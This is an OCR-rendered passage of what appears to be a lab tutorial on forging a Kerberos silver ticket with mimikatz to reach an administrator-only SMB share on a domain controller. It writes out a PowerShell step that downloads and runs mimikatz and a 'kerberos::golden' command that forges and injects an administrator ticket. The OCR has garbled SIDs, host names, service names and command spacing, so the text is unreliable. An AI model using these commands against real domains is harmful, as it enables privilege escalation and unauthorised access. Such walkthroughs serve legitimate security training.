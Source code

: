 ```output
Example: s-1-5-i1-22737@8531-2432934561-2696658194
```

*Sometimes it is possible to enumerate such value from a external position in the network, however it requires some network connectivity such as SMB with null session enabled* 

#### Step 3: Forge the Silver Ticket
At this point we have all the information we need to forge our ticket 

Multiple tools can be used to forge the silver ticket 
Let's consider **mimikatz**

Let's assume we have a low privileged access to a workstation
joined into the domain 
```example
PS C:\Users\leo> whoami
hexdump\leo
PS C:\Users\leo> hostname
QUICKEM-KFG06SG
```

Let's also assume there is an SMB share at dc01.hexdump.lab/Shared which contains a file named **secret .txt**

Initially however we cannot access such share
```powershell
dir \\dc01.hexdump.lab\Shared
```

Initially we have the following tickets

```powershell
PS C:\Users\leo> klist
```

And we can see the 
``` output
Server: clfs/DC01.hecdump.lab @ HEXDUMP.LAB 
``` 

Let's now use **mimikatz** to generate a new silver ticket, which should grant us access to that share as administrator

```powershell
Invoke-WebRequest -Uri "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip" -OutFile "mimikatz_trunk.zip"
Expand-Archive -Path "mimikatz_trunk.zip" 
cd .\mimikatz_trunk\x64\
.\mimikatz.exe
```

To generate the ticket we can use the command 
```powershell
kerberos::golden
```

```
Kerberos::golden /sid:s-1-5-21-22737@8531-2432934561-2696658194 /domain:hexdump. lab / target:dc€l.hexdump. lab /service:cifs / user : administrator / id : 1339 /ptt
```
